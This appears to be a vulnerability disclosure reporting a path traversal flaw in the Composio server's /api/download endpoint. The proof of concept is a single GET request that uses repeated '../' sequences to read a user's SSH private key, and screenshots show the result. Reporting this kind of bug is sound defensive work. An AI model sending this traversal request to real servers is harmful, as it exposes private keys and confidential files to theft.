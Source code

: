 # Description

The server code in [Composio master branch](https://github.com/ComposioHQ/composio/blob/master/python/composio/server/api.py#L278) exposes a GET endpoint at /api/download that is intended to serve files from the server. The endpoint takes a file query parameter which specifies the path to the desired file.

The Path(file) operation does not sanitize the user-provided file path. An attacker can use path traversal sequences (e.g., ../) or an absolute path to navigate outside of the intended directory and access any file on the server's filesystem that the application has read permissions for.

# Proof of Concept

## victim setup

run the composio server on localhost:8000

<img width="1516" height="174" alt="Server Initialization" src="https://gist.github.com/user-attachments/assets/6d6b2280-1a72-423e-bec0-da7195b4063c" />


## attack steps

GET 127.0.0.1:8000/api/download?file=../../../../../../../../../../xxxx/.ssh/id_rsa then the attacker can read the sensitive file on the returned html


<img width="1444" height="592" alt="Arbitrary Read Proof" src="https://gist.github.com/user-attachments/assets/0ae57f04-6cb2-4ecd-b4a5-78ebe23e5742" />

<img width="1702" height="94" alt="112836" src="https://gist.github.com/user-attachments/assets/cbfff2ec-29ab-462e-b54d-9e4fb7948b0d" />


# Impact

A malicious user could abuse this vulnerability to read any file on the victim server like SSH Keys, Confidential information, Internal configuration, Sensitive files, etc.

# Occurrences

api.py L278
